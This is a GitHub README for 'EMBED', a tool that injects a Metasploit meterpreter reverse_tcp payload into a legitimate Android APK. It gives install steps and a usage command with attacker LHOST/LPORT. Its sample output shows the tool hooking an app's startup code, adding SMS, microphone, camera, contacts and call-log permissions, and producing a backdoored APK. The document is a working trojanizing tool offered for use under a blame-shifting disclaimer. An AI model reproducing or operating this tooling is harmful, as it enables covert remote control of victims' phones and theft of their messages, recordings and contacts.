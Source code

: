# EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Apksigner
- Aapt

# INSTALLATION.
- Install git:
```bash
apt install git -y
```

- Clone this repository:
```bash
git clone https://github.com/ivam3/embed.git
```

- Bring permissions to setup file:
```
chmod +x setup
```

- Run it with manual installation:
```bash
bash setup manual
```
It will install embed over clonned directory

- Or run it with apt instalation:
```bash
bash setup apt
```
It will instal embed with Advance Package Tool(apt) over your Termux enviroment (recommend/).

# USAGE

	root@user# ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	   ._____ __  __ ____  _____ ____
	   | ____|  \/  | __ )| ____|  _ \
	   |  _| |TERMUX|  _ \|  _| | | | |
	   | |___| |\/| | |_) | |___| |_| |
	   |_____|_|  |_|____/|_____|____/ v.2
	   #:::::::: By Ivam3 ::::::::::::#

	[*]─➤ Generating msfvenom payload..
	[*]─➤ Signing payload..
	[*]─➤ Decompiling orignal APK..
	[*]─➤ Ignoring the resource decompilation..
	[*]─➤ Decompiling payload APK..
	[*]─➤ Locating onCreate() hook..
	[*]─➤ Copying payload files..
	[*]─➤ Loading original/smali/devian/tubemate/home/Main.smali and injecting payload..
	[*]─➤ Poisoning the manifest with meterpreter permissions..
	[+]─➤ Adding android.permission.SEND_SMS
	[+]─➤ Adding android.permission.RECEIVE_SMS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CALL_PHONE
	[+]─➤ Adding android.permission.READ_CONTACTS
	[+]─➤ Adding android.permission.WRITE_CONTACTS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CAMERA
	[+]─➤ Adding android.permission.READ_SMS
	[+]─➤ Adding android.permission.RECEIVE_BOOT_COMPLETED
	[+]─➤ Adding android.permission.SET_WALLPAPER
	[+]─➤ Adding android.permission.READ_CALL_LOG
	[+]─➤ Adding android.permission.WRITE_CALL_LOG
	[*]─➤ Rebuilding /sdcard/Download/tubemate-2-4-21.apk with meterpreter injection as data/data/com_backdoored.apk..
	[*]─➤ Signing data/data/com_backdoored.apk ..
	[*]─➤ Aligning data/data/com_backdoored.apk ..
	[+]─➤ Infected file legitim.apk_final ready.


### License

GNU

##### Follow me on [Socials Network](https://wlo.link/@Ivam3)
